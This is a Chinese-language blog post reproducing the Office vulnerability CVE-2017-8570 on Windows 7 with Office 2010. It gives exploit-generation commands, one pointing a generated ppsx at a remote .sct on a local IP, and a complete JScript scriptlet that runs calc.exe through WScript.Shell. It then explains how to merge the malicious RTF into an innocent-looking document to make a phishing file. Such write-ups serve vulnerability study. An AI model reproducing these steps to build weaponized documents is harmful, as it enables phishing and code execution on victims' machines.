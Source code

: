 ```yaml
---
title: "Office CVE-2017-8570 复现"
date: 2019-08-01T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['office']
categories: ['漏洞复现']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


漏洞原理移步 [SeeBug](https://paper.seebug.org/520).

环境 Windows 7, Office 2010.

<!--more-->

## 说在前面

[FreeBuf](https://www.freebuf.com/news/143685.html)

CVE-2017-0199 的另一种利用方式, 通过 sct 文件执行命令, 弥补了之前系统默认禁用 hta 执行 ActiveX 的缺陷, 不过这种方式只能通过 ppsx 文件利用.

生成文档.

```
cve-2017-0199_toolkit.py -M gen -t ppsx -w test.ppsx -u http://192.168.1.1/calc.sct
```

sct 内容.

```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="fjzmpcjvqp"
    progid="fjzmpcjvqp"
    version="1.00"
    classid="{204774CF-D251-4F02-855B-2BE70585184B}"
    remotable="true"
>
</registration>
<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```

当然, 文件也能够更改为 .ppt 后缀, 但就要等到播放幻灯片的时候才能够执行 Payload.

ppt 后缀的缺点是会有一个图标, 如果直接双击它也是会执行 Payload 的.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801144721.png)

可使用图片覆盖.

## 复现过程

[rxwx/CVE-2017-8570](https://github.com/rxwx/CVE-2017-8570)

复现时不需要搭建服务器, 直接合成 sct 就行, 这就是它和 CVE-2017-0199 最大的不同 :)

注意该漏洞只能通过 rtf 文件执行 (无法更改为 .doc 后缀).

生成文档 (sct 上文已提供).

```
packager_composite_moniker.py -s calc.sct -o test.rtf
```

打开文档.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801145550.png)

在我这里它执行了两次.

但点击 "是" 之后 Word 会崩溃.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801145710.png)

实际测试中发现在 Office 2010 更改文档内容后程序会停止运行, 而在高版本 Office 中更改后无法执行 Payload.

那么如何自定义我们的文档呢?

## 改进载荷

其实 rtf 这种格式不像一般的 doc docx 文档, 它是完全可读的, 也就是说, 我们可以通过手动编辑的方式将多个 rtf 文档合并到一起, 最后将合并后的 rtf 文档作为 Payload 去执行.

不过多个 rtf 的合并是按行而不是按页进行的, 所以在编辑钓鱼文档的时候可能就要多写一些内容.

新建文档 `helloworld.rtf`, 在里面任意编辑内容并保存.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801152047.png)

使用编辑器打开之前生成的 rtf 文档, 复制其中的文本.

再使用编辑器打开 `helloworld.rtf`, 将其复制到末尾的如下位置并保存.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801152651.png)

打开文档.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801152902.png)

成功执行 (警告框未截图).
